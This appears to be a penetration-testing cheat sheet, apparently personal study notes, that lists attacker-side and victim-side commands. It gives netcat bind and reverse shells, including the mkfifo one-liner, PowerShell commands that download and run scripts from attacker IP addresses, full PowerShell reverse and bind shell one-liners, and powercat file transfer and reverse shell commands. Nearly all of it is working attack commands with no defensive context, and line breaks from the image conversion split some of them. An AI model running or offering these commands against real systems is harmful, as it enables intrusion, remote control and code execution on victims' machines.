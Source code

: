     victim: nc -nlvp 4444
    kali: nc -nv 192.168.0.5 4444 -e /bin/bash
    victim: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.7 1234 >/tmp/f	#nc one-liner reverse shell

**# Powershell**

    PS victim: Set-ExecutionPolicy Unrestricted
    PS victim: Get-ExecutionPolicy -> appear "Unrestricted" on PS

**# PS file transfer**

    cmd victim: powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.0.7:80/usr/share/windows-resources/binaries/wget.exe','C:\Users\victim\Desktop\wget.exe')"
    cmd victim: wget.exe -V
    PS victim: IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.7/mini-reverse.ps1')
    PS victim: Invoke-WebRequest -Uri http://10.10.14.18:9000/nc.exe -OutFile nc2.exe

**# PS rev shell**

    cmd victim: powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.7',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
    $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T
    ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII
    ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c
    lient.Close()"
    kali: sudo nc -lnvp 443

**# PS bind shell**

    cmd victim: powershell -c "$listener = New-Object System.Net.Sockets.TcpListener(
    '0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie
    nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt
    es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString
    ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str
    eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto
    p()"
    kali: nc -nv 192.168.0.5 443

**# Powercat**

    PS victim: . .\powercat.ps1
    PS victim: iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
    PS victim: powercat -h

**# PCat file transfer**

    kali: sudo nc -lnvp 443 > receiving_powercat.ps1
    PS victim: powercat -c 192.168.0.7 -p 443 -i C:\Users\victim\powercat.ps1

**# PCat rev shell**

    kali: sudo nc -lvp 443
    PS victim: powercat -c 192.168.0.7 -p 443 -e cmd.exe
